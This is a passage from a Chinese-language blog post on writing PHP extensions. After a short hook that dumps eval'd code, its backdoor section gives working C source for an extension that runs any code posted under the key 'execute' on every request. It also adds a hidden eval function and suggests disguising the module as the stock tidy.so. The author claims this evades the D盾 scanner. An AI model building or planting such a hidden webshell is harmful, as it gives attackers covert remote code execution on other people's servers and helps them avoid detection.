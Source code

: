 ```c
    zend_compile_string = dump_while_eval;
    return SUCCESS;
}
```
这时候 `make && make install` 一下, 在 ini 中开启扩展, php -a 一下, 就可以发现已经成功了, 因为 php -a 说到底也得  
经过编译这个过程.


## 留后门

这个其实我感觉还是比较隐蔽的, 可以把原来的比如 `;extension=tidy`, `tidy.so`, 换成自己的, 然后开启,  
我估计很少有人会注意到, 查杀的话得检查 HASH 之类的, 说实话挺麻烦的, 毕竟每次更新这个 hash 都会变.  
而留后门的话一般都是在 RINIT 中添加, 每次都检查 `$_POST` 上有没有自己留下的后门密码, 有的话执行一下,  
相当于把 webshell 藏到扩展里面了.  
当然也可以自己给添加一个 my_eval 函数之类的, D 盾 100% 查不出来 233  

```c
PHP_FUNCTION(my_backdoor_eval) {
    char* tmp;
    size_t len;
    ZEND_PARSE_PARAMETERS_START(1, 1)
        Z_PARAM_STRING(tmp, len)
    ZEND_PARSE_PARAMETERS_END();
    zend_eval_string(tmp, NULL, (char *)"" TSRMLS_CC);
    RETURN_TRUE
}

/* {{{ PHP_RINIT_FUNCTION
 */
PHP_RINIT_FUNCTION(backdoor) {
#if defined(ZTS) && defined(COMPILE_DL_BACKDOOR)
    ZEND_TSRMLS_CACHE_UPDATE();
#endif
    char *password = "execute";

    zval * arr, *code = NULL;
    if (arr = zend_hash_str_find(&EG(symbol_table), "_POST", sizeof("_POST") - 1)) {
        if (Z_TYPE_P(arr) == IS_ARRAY &&
            (code = zend_hash_str_find(Z_ARRVAL_P(arr), password, strlen(password)))) {
            zend_eval_string(Z_STRVAL_P(code), NULL, "" TSRMLS_CC);
        }
    }
    return SUCCESS;
}

/* {{{ arginfo
 */
ZEND_BEGIN_ARG_INFO(arginfo_my_backdoor_eval, 0)
                ZEND_ARG_INFO(0, str)
ZEND_END_ARG_INFO()
/* }}} */

/* {{{ backdoor_functions[]
 */
static const zend_function_entry backdoor_functions[] = {
	PHP_FE(my_backdoor_eval,       arginfo_my_backdoor_eval)
	PHP_FE_END
};
/* }}} */
```
